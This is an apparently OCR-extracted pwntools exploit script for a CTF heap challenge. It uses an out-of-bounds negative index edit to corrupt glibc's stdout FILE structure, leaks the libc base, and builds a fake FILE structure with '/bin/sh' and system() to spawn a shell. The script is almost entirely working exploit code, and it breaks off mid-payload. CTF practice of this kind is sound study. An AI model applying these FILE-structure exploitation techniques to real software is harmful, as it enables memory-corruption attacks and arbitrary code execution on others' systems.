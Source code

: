 ```bash
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'


p=process('./pwn')
#p=remote('node4.buuoj.cn',29025)
elf = ELF('./pwn')
#libc=ELF('./libc-2.23.so')
libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')



def duan():
    gdb.attach(p)
    pause()

def add(size,content):
    sla('5.exit\n',str(1))
    sla('Input the size:\n',str(size))
    sa('Input the content:\n',content)

def delete(idx):
    sla('5.exit\n',str(2))
    sla('Input the index:\n',str(idx))

def edit(idx,size,content):
    sla('5.exit\n',str(4))
    sla('Input the index:\n',str(idx))
    sla('Input size:\n',size)
    sa('Input new content:\n',content)

add(0x100,'a') #0
pl=p64(0xfbad1887)+p64(0)*3+b'\x00'
edit(-0x10,0xa0,pl) #
libc_base=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))-0x3c36e0
leak('libc_base',libc_base)
leak('_IO_save_base',libc.symbols['system']+libc_base)
leak('lock',libc_base+0x3c6780)
leak('vtable',libc_base+libc.symbols['_IO_2_1_stdout_']+0x10)

pl=flat([
    b'/bin/sh\x00',
    p64(0)*8,
    libc.symbols['system']+libc_base, #_IO_save_base
    p64(0)*6,
    p64(0),
    #p64(0)*3,
    libc_base+0x3c6780, #lock
    p64(0),
    p64(0)*8,
    libc_base+libc.symbols['_IO_2_1_stdout_']+0x10 #
```